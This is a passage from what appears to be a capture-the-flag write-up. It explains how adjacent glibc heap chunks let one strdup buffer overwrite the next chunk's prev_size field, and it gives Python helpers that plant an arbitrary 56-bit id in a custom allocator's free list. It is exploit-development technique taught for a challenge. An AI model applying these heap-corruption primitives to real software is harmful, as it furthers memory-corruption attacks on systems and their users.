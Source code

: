 ## The Obvious Solution

It takes me a while, but I eventually realise that the preceding paragraph is false. Sequential malloc chunks can use the `prev_size` field to store user data:

![](prev_size.png)

This means that if I call `strdup("A"*0x17)` twice in succession, the first `strdup()` chunk allocated can be used to overwrite the `prev_size` of the 2nd `strdup()` chunk:

```python
strdup(b''.rjust(0x17,b'a'), 0)
strdup(b''.rjust(0x17,b'a'), 1)
edit(0, b''.rjust(0x17,b'a'))
```

![](prev_size2.png)

Using this method, the interpreted `mchunk->id` for a glibc heap chunk can be modified to any value within `range(0, 1<<56)`.

```python
# register an arbitrary 56-bit id onto the mound's free id list
def reg_id(id: int):
    strdup(b'a'*0x17, 0)
    strdup(b'a'*0x17, 1)
    edit(0, pack(id)[:7].rjust(0x17, b'a'))
    free(0)
```

What are the consequences of this? Adding a new `id` to `mound_arena.ids[]` is pretty useless; it would only make allocations _harder_ instead of easier. I could also try to get rid of an ID:
